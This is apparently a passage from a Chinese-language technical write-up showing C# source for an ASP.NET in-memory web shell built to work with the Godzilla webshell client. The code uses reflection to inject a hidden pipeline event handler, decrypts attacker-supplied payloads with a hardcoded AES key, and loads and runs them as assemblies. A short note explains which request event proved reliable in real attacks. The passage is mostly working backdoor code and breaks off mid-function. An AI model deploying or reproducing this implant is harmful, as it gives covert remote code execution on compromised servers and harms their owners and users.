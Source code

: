                     System.Type syncEventExecutionStepType = httpApplicationType.GetNestedType("SyncEventExecutionStep", System.Reflection.BindingFlags.NonPublic);  
                    System.Reflection.ConstructorInfo constructor = syncEventExecutionStepType.GetConstructor(System.Reflection.BindingFlags.NonPublic | System.Reflection.BindingFlags.Instance, null, new System.Type[] { typeof(System.Web.HttpApplication), typeof(System.EventHandler) }, null);  
                    object step = constructor.Invoke(new object[] { httpApplicationInstance, c });  
                      
                    System.Reflection.MethodInfo getAddEventMethod = moduleContainer.GetType().GetMethod("AddEvent",System.Reflection.BindingFlags.Instance | System.Reflection.BindingFlags.NonPublic);  
                    object[] AddEventMethodPs = { System.Web.RequestNotification.LogRequest, false, step };  
                    getAddEventMethod.Invoke(moduleContainer, AddEventMethodPs);  
       
                }catch(System.Exception e)  
                {  
                    Context.Response.Write(e.Message);  
                }  
      
                Context.Response.Flush();  
                Context.Response.End();  
              
            }  
              
              
      
    }  
      
    

选择RequestNotification.LogRequest事件的原因是因为事件发生位置靠后，然而实战中发现LogRequest发生时，当前请求处理已经结束，当前context实例的session实例为null。所以选择Session
module的AcquireRequestState事件(在session实例初始化后和垃圾回收前)，在不修改哥斯拉原本payload位置的情况下完成内存马功能

    
    
    public class F  
        {  
            public class CustomModule : System.Web.IHttpModule  
            {  
                public void Init(System.Web.HttpApplication httpApp)  
                {  
                }  
                // Issues a custom begin request event.  
                public void OnEnter(System.Object sender, System.EventArgs e)  
                {  
                    System.Web.HttpContext context = ((System.Web.HttpApplication)sender).Context;  
                    context.Server.ClearError();  
                    context.Response.Clear();  
                    string kk = "3c6e0b8a9c15224a";  
                    string pp = "pas";  
                    string md5 = System.BitConverter.ToString(new System.Security.Cryptography.MD5CryptoServiceProvider().ComputeHash(System.Text.Encoding.Default.GetBytes(pp + kk))).Replace("-", "");  
                    byte[] data = System.Convert.FromBase64String(context.Request[pp]);  
                    //context.Response.Write(context.Request[pp]);  
                    data = new System.Security.Cryptography.RijndaelManaged().CreateDecryptor(System.Text.Encoding.Default.GetBytes(kk), System.Text.Encoding.Default.GetBytes(kk)).TransformFinalBlock(data, 0, data.Length);  
                    if (context.Session["payload"] == null)  
                    {  
                        context.Session["payload"] = (System.Reflection.Assembly)typeof(System.Reflection.Assembly).GetMethod("Load", new System.Type[] { typeof(byte[]) }).Invoke(null, new object[] { data });  
                    }  
                    else  
                    {  
                        System.IO.MemoryStream outStream = new System.IO.MemoryStream();  
                        object o = ((System.Reflection.Assembly)context.Session["payload"]).CreateInstance("LY");  
                        o.Equals(context); o.Equals(outStream); o.Equals(data); o.ToString();  
                        byte[] r = outStream.ToArray();  
                        context.Response.Write(md5.Substring(0, 16));  
